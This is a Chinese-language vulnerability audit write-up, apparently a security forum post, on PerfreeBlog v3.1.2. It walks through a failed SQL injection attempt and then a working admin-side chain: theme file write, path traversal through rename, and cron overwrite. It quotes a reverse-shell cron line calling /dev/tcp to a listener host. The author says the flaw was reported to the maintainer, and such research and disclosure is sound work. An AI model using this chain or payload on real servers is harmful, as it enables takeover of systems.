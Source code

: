 ### 环境搭建

本文审计的是PerfreeBlog最新的v3.1.2版本，一个开源的个人博客系统，直接从github的release中拉取相应的源代码，这里开始用的windows环境，后续为了方便进一步挖掘利用链改成了linux。windows下配置一下本地maven，然后配置一下mysql等就可以了

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-fec742e8fb6758bc15e89b4f37c67b8860f117e4.png)

### 失败SQL

由于涉及数据库操作用的是开源的mybatis，索性一开始就把目标放在了sql注入上，但是sql注入并没有利用成功  
熟悉mybatis的师傅应该都知道造成sql注入的成因，这里直接全局去搜索$,找到了如下：`com/perfree/mapper/ArticleMapper.java`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-08caae19372b73459ba43aae6a66346ad831d30d.png)  
根据id调用的接口进行回溯(推荐idea的一个插件MyBatisX，便于对接口和sql语句的快速定位)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-a6ab7d40dbcf94645e9e4ce36ddf9052476c4fbc.png)  
查看apiList被调用的情况

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-9766496a62af46ab2936939aaef4b46a5e63d41e.png)  
`com/perfree/controller/api/ArticleController.java`，一些获取参数的就不看了，跟进generateOrderBy

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-5b2eafb8c29ea4fad74774159fa4b28c97991440.png)

这里是对获取到的参数进行处理，根据前面所知，orderBy参数可控且是可能存在的注入点，对获取到的数据以','进行分割，并对数组进行了白名单匹配，若数组中的数据不在白名单中就直接返回为空

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-63222240157ab575d470dc92f1c3da9be54818cc.png)

白名单的数据来源如下

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-402028c49699f826531afa7d9e861f569253391d.png)

所以这里最后的sql执行语句反而变的不可控了，只能是白名单中的数据才可以；其他可能存在的利用点最后经过审计也都不可利用

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-da81c964b2c4ee6ff47292ab23b2c6e476ee84ef.png)

### 文件上传

在sql不可利用之后，将注意点转向了后台可能存在的文件上传的点  
`com/perfree/controller/admin/ThemeController.java`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-89c29370555e9fe29bf2df046ec35b1027895dc1.png)

跟进createFileOrDir,将传递的参数进行了处理，对filePath是否为空白字符进行判断

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-ee213192a1038fc08f3f20cb898ee4ee2d3a88e4.png)

调用FileUtil工具类的touch方法在绝对路径下创建了文件,未对后缀做任何限制，可创建任意后缀的文件,并且注意到未对..和/进行过滤，可以进行目录穿越创建文件

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-0491a67f57c3c3622ea7b29f761b511155f87404.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-014dc88e6d731306e6d86a501d28899786593dfe.png)  
接下来找到写入文件内容的方法

通过调试跟进函数，传递的content参数并没有被过滤，也就是说写入文件的内容可控

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-5eb2746805a8dbf7af9468b960add07e1a8aefa1.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-ab340831c9b3d0a1f4a4c5b87929de11401db01c.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-08608192361e3246d4a6d2400df919d40256321c.png)

这里本来想直接上传一个jsp文件的，但是发现并没有用中间件，纯是SprintBoot写的，在pom.xml中没有进行配置是无法解析jsp文件的，还需要想想其他的方法  
结合前面的目录穿越，尝试了写入文件时能不能，但是注意到这里对文件路径进行了校验，通过获取themeDir的路径进行判断是否存在，不存在会直接返回文件不存在

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-91e91b8857a5a944b4d9a3b21ede709394f0da83.png)

在同一个类中看了看其他的函数，其中一个貌似可以利用

文件重命名函数

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-e44cf21bca11759935b34ac496e0badd77f9421c.png)

断点调试一下,基本和创建文件的流程差不多，并且没有对重命名传入的文件名进行过滤，也就是说是在重命名文件的时候可以进行目录穿越

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-7c8de5303a9938bceb2e6f599e5eb029f97cef5c.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-15304b4a3dda38e27df74621034b6e1ac11ce072.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-e5bc4a2d7168adabe086ad8a86fe94359a7f1baf.png)

通过上面的分析，捋一捋现在能利用的路径

后台权限-&gt;主题新建文件-&gt;写入恶意代码-&gt;文件重命名路径穿越

现在还差最后一步，找到最终的可利用点

#### 计划任务

linux下可以尝试通过覆盖计划任务文件反弹shell

##### docker

在用官方docker的时候发现是拉取的debian镜像，索性改了一个centos的，Dockerfile如下

```php
FROM centos:centos7.6.1810
COPY ./jdk-8u181-linux-x64.tar.gz /jdk-8u181-linux-x64.tar.gz
COPY ./perfree-web-3.1.2.tar.gz /perfree-web-3.1.2.tar.gz
RUN yum install crontabs -y
RUN tar -zxvf /jdk-8u181-linux-x64.tar.gz &amp;&amp; mv jdk1.8.0_181 /usr/local/
RUN tar -zxvf /perfree-web-3.1.2.tar.gz &amp;&amp; mv perfree-web /usr/local/
WORKDIR /usr/local/perfree-web
EXPOSE 8080
CMD [ "/usr/local/jdk1.8.0_181/bin/java","-jar","/usr/local/perfree-web/perfree-web.jar" ]
```

接上面的利用链重命名文件，进入docker查看，已经成功写入计划任务，但是在查看计划任务执行的日志文件时发现并不存在该日志文件

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-0b8308e742ab24aa509d253bf493fe528ba4b89b.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-3b93f1093711a535a6d9f0d934504bf79448c0dd.png)  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-3bc576f7d1bd9712188b89f85e9297e771150937.png)

查找资料之后也并没有解决这个问题，并且容器中相关的cron配置文件缺失不少，有一个说是启动一个centos的特权容器计划任务能够执行，那就换个容器。

这里说一下后台的功能点，如下

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-3b02a16aec0021172304c64be2500b9e7eaca7b3.png)

一样的操作，修改文件名

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-493508c503e3f3194eff88183fa38ae067bec0a4.png)

文件内容依旧是计划任务反弹shell，这里写入的时候注意换行符，也是试了很多次之后发现没有换行符计划任务执行是有问题的

```php
*/1 * * * * bash -i &gt;&amp; /dev/tcp/ip/1234 0>&1

```

在跑着cms的服务器上查看计划任务列表和日志，可以看到计划任务的执行情况，另一台监听的服务器成功接收到弹回的shell

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-3079293d531b57c0caa5f4b1eea935d7ee7adda2.png)

![](https://cdn.nlark.com/yuque/0/2023/png/2741102/1679994070901-2f5a0fc8-1096-421b-98f8-4ed9c999ef9c.png)

到这里就能够成功通过组合拳拿到服务器的权限了

### final

距离审计已经过了好几个月，第一时间已经将上述漏洞信息告知了项目作者，但暂未看到修复信息，后台的利用限制确实显得比较鸡肋。